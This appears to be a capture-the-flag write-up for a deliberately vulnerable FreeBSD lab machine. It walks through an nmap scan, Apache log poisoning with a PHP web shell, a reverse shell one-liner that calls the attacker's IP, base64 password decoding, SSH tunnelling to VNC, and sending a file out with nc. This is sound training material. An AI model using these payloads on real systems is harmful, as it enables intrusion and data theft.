









## Nmap scan:
```
# Nmap 7.92 scan initiated Wed Jan 11 23:04:19 2023 as: nmap -sC -sV -vv -oA quick 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up, received echo-reply ttl 63 (0.070s latency).
Scanned at 2023-01-11 23:04:19 EST for 16s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFLpOCLU3rRUdNNbb5u5WlP+JKUpoYw4znHe0n4mRlv5sQ5kkkZSDNMqXtfWUFzevPaLaJboNBOAXjPwd1OV1wL2YFcGsTL5MOXgTeW4ixpxNBsnBj67mPSmQSaWcudPUmhqnT5VhKYLbPk43FsWqGkNhDtbuBVo9/BmN+GjN1v7w54PPtn8wDd7Zap3yStvwRxeq8E0nBE4odsfBhPPC01302RZzkiXymV73WqmI8MeF9W94giTBQS5swH6NgUe4/QV1tOjTct/uzidFx+8bbcwcQ1eUgK5DyRLaEhou7PRlZX6Pg5YgcuQUlYbGjgk6ycMJDuwb2D5mJkAzN4dih
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKXh613KF4mJTcOxbIy/3mN/O/wAYht2Vt4m9PUoQBBSao16RI9B3VYod1HSbx3PYsPpKmqjcT7A/fHggPIzDYU=
|   256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrg2EBbG5D2maVLhDME5mZwrvlhTXrK7jiEI+MiZ+Am
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 11 23:04:35 2023 -- 1 IP address (1 host up) scanned in 16.36 seconds
```

Two ports were open, 80 for a website and 22 for SSH. </br>
I got inside the website, it it looked like that: </br>


I could basically navigate through most of the files the webserver user had access to: </br>


Since I could access most of the files on the machine, I though that Apache Log Poisoning might be possible. </br>
**Log poisoning** is a technique that allows the attacker to tamper with the log file contents like inserting the malicious code to the server logs to execute commands remotely or to get a reverse shell.  </br>
I checked the ```php.ini``` file, and I could see that it is a  ```FreeBSD``` machine:


The main Apache HTTP Server configuration file is installed as ```usr/local/etc/apache/httpd.conf``` on FreeBSD. </br>
I got inside, and used BurpSuite tool, to intercept the data and inject the cmd command inside User-Agent:


The CMD command:
```
<?php system($_GET['c']); ?>
```

Now I should be able to execute a command inside the ```c``` paramter: </br>


And it worked: </br>



Since there is RCE, I could send a reverse shell and connect into the machine, I used this FreeBSD reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 10.10.14.34 443 > /tmp/f
```

And it worked:


## Shell as charix:

I enumerated from the directory I was inside, and I saw a file called ```pwdbackup.txt```: </br>
```
$ cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=

```

Looked like a base64 password that was encoded 13 times, to decode it I simply made a short python script:
```
from base64 import b64decode

encoded_pass = 'Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo='

for i in range (13):
	encoded_pass = b64decode(encoded_pass)

print encoded_pass 
```

**Result:** </br>


I checked the ```home``` directory to see which user it could be: </br>
```
$ ls /home
charix
```

I got inside using SSH:


# Privilege Escalation

In the user home directory I was inside, besides the user flag I could see a zip file called ```secret.zip``` , when I tried to extract it, it prompted for a password - I tried reusing charix password, and it worked. </br>

```
charix@Poison:~ % file secret
secret: Non-ISO extended-ASCII text, with no line terminators
charix@Poison:~ % cat secret | hexdump -C
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
00000008
```

Looks like a binary file, at this point I Had no idea how could it help me, so I continued to enumerate the machine. </br>

Listing all of the proccess running on the system with ```ps aux``` :**
```
root   529   0.0  0.9 23620  8872 v0- I    00:49    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000
```

I could see TightVNC running on the system. </br>
`-rfbport 5901` - TightVNC was running on this port.

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.34.49316      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

I didn't see ```TightVNC``` service on the nmap scan, because it was exposed locally, this means I can only access with a local port forwarding/tunneling. </br>

```
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Only then I could use TightVNC to connect to the local port (5901). </br>
I assumed that the password was the unzipped secret file I found earlier, and this was the full command I used:
```
To transfer the secret file I used nc:
Attacker Machine:
nc -nlvp 443 > secret
Victim:
nc -w 3 10.10.14.34 443 < secret

vncviewer 127.0.0.1:5901 -passwd secret
```



